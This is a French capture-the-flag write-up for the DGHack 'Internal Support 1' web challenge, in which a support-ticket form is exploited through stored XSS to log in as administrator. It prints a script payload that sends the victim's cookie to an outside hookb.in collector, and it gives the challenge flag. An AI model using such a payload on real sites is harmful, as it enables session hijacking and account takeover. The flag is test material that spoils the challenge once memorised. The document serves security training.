 # Internal Support 1

## Description

L'application "Internal Support" permet à la DGA d'assurer le support auprès de ses agents. En tant que nouvel embauché, vous pouvez vous y inscrire dès à présent. Chaque demande de support est maintenant traitée par nos administrateurs en un temps record.

Avec une posture d’attaquant, votre but est de parvenir à vous connecter en tant qu'administrateur. Malheureusement pour vous, le mot de passe est bien trop robuste, vous devez trouver un autre moyen.

> Accès à l'épreuve: http://internalsupport12.chall.malicecyber.com/

## Solution

Après connexion, on se retouve avec un formulaire.

![ticket](../assets/internal_support_1.png)

On essaye donc une simple XSS avec `<script>alert(1)</script>`.

La XSS fonctionne, on récupère donc le cookie de l'administrateur avec ce payload:

```html
<script>
    document.location='https://hookb.in/03OXrDoBQBs1yykKO0WE/?c='+document.cookie;
</script>
```
En utilisant le cookie obtenue, on trouve le flag dans la page d'acceuil.

![flag](../assets/internal_support_1-2.png)

Le flag est `NoUserValidationIsADangerousPractice`.

## Write-up

- [Nicolas Bourras](https://nicolasb.fr/blog/writeup-dghack-internal-support-1/)
